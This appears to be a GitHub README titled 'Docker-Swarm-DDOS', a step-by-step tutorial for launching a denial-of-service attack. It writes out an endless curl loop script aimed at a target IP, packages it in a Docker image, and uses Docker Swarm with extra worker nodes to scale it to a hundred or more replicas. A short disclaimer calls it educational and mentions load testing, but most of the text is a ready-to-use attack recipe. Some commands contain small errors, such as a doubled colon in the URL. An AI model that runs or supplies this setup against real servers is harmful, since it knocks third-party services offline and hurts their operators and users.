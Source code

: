 # Docker-Swarm-DDOS
## How to create a Denial of Service Attack through Docker Swarm.
#### Quick Disclaimer: This information is for educational purposes only and should not be used with malicous intent. Also the following guide has been tested only for Mac and Ubuntu, minor differences might exist on other OS.

This repository will help you to create a DDOS attack on a server. This could be useful if working on a project and trying to test out what will happen if there is some traffic, heavy traffic or a full fleshed DDOS attack.

### List of Tasks

- [ ] Installing Docker
- [ ] Creating the Script
- [ ] Setting up Dockerfile
- [ ] Creating a Custom Docker Image
- [ ] Setting up Docker Swarm
- [ ] Creating and Scaling a Service


### Installing Docker
If you have this part already complete feel free to move on to the next, otherwise here is a link that you could follow in order to get this part started.

Please instiall the proper verison for your OS and then return back to this guide. :+1:

https://www.docker.com/community-edition

- [x] Installing Docker

### Creating the Script
Now that we have Docker installed and running lets get started with creating a directory.
It doesnt matter where this directory is, but to keep in simple for now I'll go with this

```
$ mkdir $HOME/DockerAttack
$ cd $HOME/DockerAttack
```
>Following is done through iTerm or a Terminal
>I personally use vim for this, but any way would really do.
>$ vim curlAttack.sh
There's not much to the script, in fact its a simple looping curl, it looks something like this
```sh
while true
do
#Please use 'man curl' to see what -vk is for, also -X command can be useful too.
curl -vk https:://<ip>
#sleep 5
done
exit 0
```
> I'd actually reccomend to first write a curl command that works for your server in a terminal, then copy paste it into the script.

At this point you could test it out by adding execution permission and then running it.
```
$ chmod +x curlAttack.sh
$ ./curlAttack.sh
```

- [x] Creating the Script


### Setting up Dockerfile
Without switching to a different directory lets create our Dockerfile.

>$ vim Dockerfile
```
FROM tutum/curl
ADD curlAttack.sh /usr/local/bin/curlAttack.sh
CMD ["usr/local/bin/curlAttack.sh"]
```
- [x] Setting up Dockerfile

### Creating a Custom Docker Image Through Dockerfile

Now that dockerfile is set up properly, without switching into a different directory run the following command.
```
  $ docker build -t <imageName>:dockerfile .
```
Check if it was succesfull by running
 ```
 $ docker images
 ```
 
 If you can find your image with the tag 'dockerfile' then we're good to go to the next step.
 
 - [x] Creating a Custom Docker Image
 
### Setting up Docker Swarm
 
We can start up with docker swarm with the following command.
```
$ docker swarm init
```
If at this point you believe your computer has enough recources to make how many copied you like skip to the next step.
Docker Swarm is also build in a way to distribute the workload between worker nodes. The docker swarm init command gives a join token which could be used on another device that has docker in order to have it join as a worker and share the workload.

```
$ docker swarm join --token <Token From Init Command>
```
 
### Creating and Scaling a Service

So to start of here are useful commands to know, all of these start with: **docker service**

| Command   | Description |
| ------------- | ------------- |
|  create --name \<serviceName> --detach=false \<imageName>:dockerfile | Creates a service from the custom dockerfile image.  |
| scale \<serviceName>=\<#>  | Used to easily scale number of copies of the service.  |
| rm \<serviceName> | Ends service with the given name.  |
| ls | Lets you see running services and number of copies that are currently up. |

Here's an example that sets up the image, creates a service, scales it then ends it.
```
$ docker build -t <imageName>:dockerfile .
$ docker service create --name <serviceName> --detach=false <imageName>:dockerfile
$ docker service scale <servicename>=100
$ docker service rm done
```

Also you if you'll be repeating these often, I'd reccomend adding these as aliases for these.

- [x] Creating and Scaling a Service


### This is the end of tutorial, hope you found it useful.

